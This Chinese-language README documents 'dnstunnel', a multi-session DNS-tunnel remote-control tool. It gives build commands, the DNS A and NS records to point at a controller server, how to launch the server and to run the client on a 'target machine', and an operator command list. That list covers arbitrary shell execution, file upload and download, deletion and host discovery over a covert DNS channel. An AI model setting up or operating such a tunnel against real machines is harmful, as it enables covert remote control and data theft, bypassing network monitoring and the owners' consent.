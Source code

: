 #dnstunnel
一款多会话的二进制DNS隧道远控
#编译
```
./build.sh
```
#域名配置
使用者需要在域名服务做如下配置(以gandi.net为例):  
添加一条A记录: 
```
ns1 10800 IN A 55.55.55.55
```
再添加一条NS记录: 
```
1 1800 IN NS ns1.test.website.
```
#使用说明
按照以上添加后, 在55.55.55.55上启动NDNS_server
```
./NDNS_server
```
在目标机带参数启动NDNS_client
```
./NDNS_client .1.test.website
```
#用户界面
支持如下命令
```
session <list|clientid>
getuid
upload <local> <remote>
download <remote> <local>
bash <shell cmd>
move <src> <dst>
mkdir <dir>
rmdir <dir>
rename <old> <new>
list
rm <file>
cd <dir>
pwd
hostip
Session[29727]>>
```
##session
```
session list
```
列出当前所有会话
```
session clientid
```
切换到对应会话  
##getuid  
```
getuid
```
获取当前远程会话的用户ID  
##upload
```
upload aaa bbb
```
将本地文件aaa上传到远程会话机器bbb，限制文件aaa压缩后要小于430字节  
##download
```
download aaa bbb
```
将远程文件aaa下载到本地为bbb，下载速率大概20-30字节/秒，所以千万不要下载大文件，否则耗时超级长  
##bash
```
bash which python
```
可执行任意shell命令，注意不要执行需要交互的命令  
##move
```
move <src> <dst>
```
和mv功能一致，暂未实现，可能用处很少  
##mkdir
```
mkdir aaa
```
在远端创建文件夹aaa  
##rmdir  
删除远端文件夹  
##rename  
重命令文件  
##list
```
list
```
在远端程序当前目录执行ls -lrt并返回结果  
##rm  
删除远端文件  
##cd  
切换远端程序当前目录  
##pwd  
获取远端程序当前目录  
##hostip  
获取远端机器的出口ip和主机名
